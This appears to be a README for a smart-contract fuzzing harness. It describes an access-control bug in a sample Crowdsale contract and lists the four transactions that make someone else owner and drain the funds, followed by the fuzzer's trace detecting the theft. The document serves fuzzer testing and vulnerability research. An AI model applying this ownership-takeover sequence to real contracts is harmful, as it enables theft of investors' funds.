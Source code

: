 # Attack Against the Crowdsale Contract

This attack is exploiting a missing access control bug, which allows any user
to become the owner of the contract. However, a successful attack requires a
couple of conditions that must be satisfied by triggering the right
transactions in the right order.

* One or multiple users call `invest()`, s.t., `raised > goal`
  (i.e., `sload(1) > sload(0)`) 
* Someone calls `setPhase(1)` to transition to `phase == 1`
* The attacker calls `setOwner(attacker)` to change ownership of the contract.
* The attacker calls `withdraw()` to transfer the funds to herself

There is some variability here, as the `setOwner` call can happen anywhere
before the `withdraw()` call. All other transactions must be in the order
above.

## Use with Fuzzing Harness multitx

This attack can be detected in the current `fuzz_multix` fuzzing harness:

```
env DEBUG_PRINT=1 ../build_afuzz/fuzz_multitx ./attack
======================= INFO =========================
This binary is built for afl++.
To run the target function on individual input(s) execute this:
  ../build_afuzz/fuzz_multitx INPUT_FILE1 [INPUT_FILE2 ... ]
To fuzz with afl-fuzz execute this:
  afl-fuzz [afl-flags] -- ../build_afuzz/fuzz_multitx [-N]
afl-fuzz will run N iterations before re-spawning the process (default: 1000)
======================================================
Reading 124 bytes from ./attack
Constructing global state
address: 0xb8ba118a0f49c391ce0fdee0f77119cb009d8971
creator: 0x12e79239d48f83be71dbbd18487f4acc279ee929
tx_sender[] = {
	0x784689c0c5d48cec7275152b3026b53f6f78d03d,
	0x87af1d7e20374a20d4d3914c1a1b0ddfef99cc61,
	0xfe18c3f08417e77b94fb541fed2bf1e09093edd,
	0xddcf2af7ea37d6d9d0a23bdf84c71e8c099d03c2,
	0xecb803ea8bc30894cc4672a9159ca000d377d9a3,
}
with initial funds: 0x1000000000000000000000000000000000000000000000000
running fuzzcase

transaction 0
found input length: 4 and actual remaining bytes 4
Running Transaction 0
input bytes: 0xe8b5e51f
4byte sig: 0xe8b5e51f
call value: 0x21e19e0c9bb00000000
from: 0x784689c0c5d48cec7275152b3026b53f6f78d03d
Running specialized code
EVM Code done
return code: 1
Exception:
last PC: 0
74 (1): DUP1
stack before:
 0: 0xe8b5e51f

321 (1): JUMPDEST
stack before:
 0: 0xe8b5e51f

831 (1): JUMPDEST
stack before:
 0: 0x149
 1: 0xe8b5e51f

844 (1): POP
stack before:
 0: 0x1
 1: 0x149
 2: 0xe8b5e51f

852 (1): JUMPDEST
stack before:
 0: 0x1
 1: 0x149
 2: 0xe8b5e51f

861 (1): JUMPDEST
stack before:
 0: 0x149
 1: 0xe8b5e51f

329 (1): JUMPDEST
stack before:
 0: 0xe8b5e51f

no response

transaction 1
found input length: 36 and actual remaining bytes 36
Running Transaction 1
input bytes: 0x2cc826550000000000000000000000000000000000000000000000000000000000000001
4byte sig: 0x2cc82655
call value: 0x0
from: 0x784689c0c5d48cec7275152b3026b53f6f78d03d
Running specialized code
EVM Code done
return code: 1
Exception:
last PC: 0
206 (1): JUMPDEST
stack before:
 0: 0x20
 1: 0x4
 2: 0xe4
 3: 0x2cc82655

399 (1): JUMPDEST
stack before:
 0: 0x1
 1: 0xe4
 2: 0x2cc82655

410 (1): POP
stack before:
 0: 0x1
 1: 0x1
 2: 0xe4
 3: 0x2cc82655

419 (1): JUMPDEST
stack before:
 0: 0x1
 1: 0x1
 2: 0xe4
 3: 0x2cc82655

459 (1): JUMPDEST
stack before:
 0: 0x1
 1: 0x1
 2: 0xe4
 3: 0x2cc82655

468 (1): JUMPDEST
stack before:
 0: 0x1
 1: 0xe4
 2: 0x2cc82655

228 (1): JUMPDEST
stack before:
 0: 0x2cc82655

no response

transaction 2
found input length: 36 and actual remaining bytes 36
Running Transaction 2
input bytes: 0x13af403500000000000000000000000087af1d7e20374a20d4d3914c1a1b0ddfef99cc61
4byte sig: 0x13af4035
call value: 0x0
from: 0x87af1d7e20374a20d4d3914c1a1b0ddfef99cc61
Running specialized code
EVM Code done
return code: 1
Exception:
last PC: 0
0 (1): PUSH1
stack before:

13 (1): PUSH1
stack before:

90 (1): JUMPDEST
stack before:
 0: 0x13af4035

102 (1): JUMPDEST
stack before:
 0: 0x0
 1: 0x13af4035

125 (1): JUMPDEST
stack before:
 0: 0x20
 1: 0x4
 2: 0xa9
 3: 0x13af4035

331 (1): JUMPDEST
stack before:
 0: 0x87af1d7e20374a20d4d3914c1a1b0ddfef99cc61
 1: 0xa9
 2: 0x13af4035

169 (1): JUMPDEST
stack before:
 0: 0x13af4035

no response

transaction 3
found input length: 4 and actual remaining bytes 4
Running Transaction 3
input bytes: 0x3ccfd60b
4byte sig: 0x3ccfd60b
call value: 0x0
from: 0x87af1d7e20374a20d4d3914c1a1b0ddfef99cc61
Running specialized code
EVM Code done
return code: 1
Exception:
last PC: 0
41 (1): DUP1
stack before:
 0: 0x3ccfd60b

230 (1): JUMPDEST
stack before:
 0: 0x3ccfd60b

242 (1): JUMPDEST
stack before:
 0: 0x0
 1: 0x3ccfd60b

478 (1): JUMPDEST
stack before:
 0: 0xfb
 1: 0x3ccfd60b

493 (1): JUMPDEST
stack before:
 0: 0xfb
 1: 0x3ccfd60b

599 (1): JUMPDEST
stack before:
 0: 0x0
 1: 0xfb
 2: 0x3ccfd60b

251 (1): JUMPDEST
stack before:
 0: 0x3ccfd60b

no response

[DONE] all transactions executed
contract: 0xb8ba118a0f49c391ce0fdee0f77119cb009d8971
balance = 0x0
more than initial balance? no
contract creator: 0x12e79239d48f83be71dbbd18487f4acc279ee929
balance = 0x1000000000000000000000000000000000000000000000000
more than initial balance? no
checking balance of 0x784689c0c5d48cec7275152b3026b53f6f78d03d
= 0xfffffffffffffffffffffffffffffde1e61f364500000000
checking balance of 0x87af1d7e20374a20d4d3914c1a1b0ddfef99cc61
= 0x10000000000000000000000000000021e19e0c9bb00000000
account 0x87af1d7e20374a20d4d3914c1a1b0ddfef99cc61 has balance 0x10000000000000000000000000000021e19e0c9bb00000000( > 0x1000000000000000000000000000000000000000000000000)
[1]    82466 abort (core dumped)  env DEBUG_PRINT=1 ../build_afuzz/fuzz_multitx ./attack
```
